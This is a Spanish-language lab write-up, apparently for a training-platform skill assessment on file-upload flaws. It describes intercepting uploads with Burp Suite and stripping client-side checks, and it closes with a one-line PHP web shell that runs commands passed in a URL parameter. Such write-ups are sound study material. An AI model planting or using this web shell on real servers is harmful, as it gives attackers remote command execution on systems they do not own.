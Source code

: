 # Writeup Skill Assessment

## SCOPE

- [144.126.232.205:32124](144.126.232.205:32124)

## writeup

La pagina tiene una carga de archivos y previsualizacion en la parte de contactos:

- [http://144.126.232.205:32124/contact/](http://144.126.232.205:32124/contact/)
![[Pasted image 20230107205857.png]]

primero vamos a cargar una imagen para ver que formatos admite:

![[Pasted image 20230107205940.png]]

cargamos una imagen jpeg:

![[Pasted image 20230107212043.png]]

si interceptamos la carga del archivo vemos una foto en `JPEG` firma que indica que es `JPEG:

![[Pasted image 20230107212144.png]]

este es el **MIME Type** que usaremos mas adelante

>[!note]
>A la hora de intentar vulnerar una carga de archivos, primero cargar un archivo correctamente y capturar con Burpsuite para ver como lo manda, despues adaptamos nuestro ataque sobre ese request valido.



vamos a evadir la proteccion del lado del cliente eliminando ciertas partes del codigo HTML:

antes

![[Pasted image 20230107210326.png]]

despues

![[Pasted image 20230107210431.png]]

ahora vamos a cargar un simple archivo PHP y capturamos con burpsuite:

```php
<?php
   system($_GET['cmd']);
?>
```

![[Pasted image 20230107210525.png]]
